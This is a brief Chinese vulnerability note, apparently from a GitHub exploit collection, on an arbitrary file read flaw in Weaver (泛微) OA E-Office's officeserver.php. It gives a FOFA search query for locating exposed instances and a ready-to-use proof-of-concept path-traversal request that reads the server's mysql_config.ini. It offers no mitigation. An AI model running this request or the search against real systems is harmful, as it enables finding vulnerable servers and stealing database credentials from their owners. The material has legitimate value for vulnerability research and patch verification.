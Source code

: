 # 

# 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
泛微OA E-Office
```

## FOF

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520140739224](./images/202205201407281.png)

验证POC

```
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![image-20220520140749985](./images/202205201407034.png)
